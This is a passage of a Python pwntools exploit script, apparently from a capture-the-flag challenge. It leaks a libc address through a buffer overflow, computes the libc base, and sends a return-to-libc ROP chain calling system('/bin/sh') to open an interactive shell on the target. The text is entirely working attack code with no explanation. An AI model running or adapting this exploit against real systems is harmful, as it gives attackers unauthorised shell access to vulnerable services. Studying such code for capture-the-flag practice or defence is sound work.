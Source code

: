 ```py
p.sendline(str(sending + 8*4).encode())
p.sendline(second_payload)

p.recvuntil(b"B"*offset)
p.recvline()
libc_leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"{hex(libc_leak)=}")

libc.address = libc_leak - 0x620d0
log.success(f"{hex(libc.address)=}")

print("===========================")

libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]
pop_rdi = libc.address + 0x2a3e5

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))
log.info("pop_rdi: "+ str(hex(pop_rdi)))

third_payload = b"B"*offset
third_payload += p64(pop_rdi)
third_payload += p64(binsh)
third_payload += p64(ret)
third_payload += p64(libc_system)
third_payload += p64(libc_exit)

p.recvuntil(b"Echo2")
p.sendline(str(sending + 8*5).encode())
p.sendline(third_payload)

p.interactive()
```


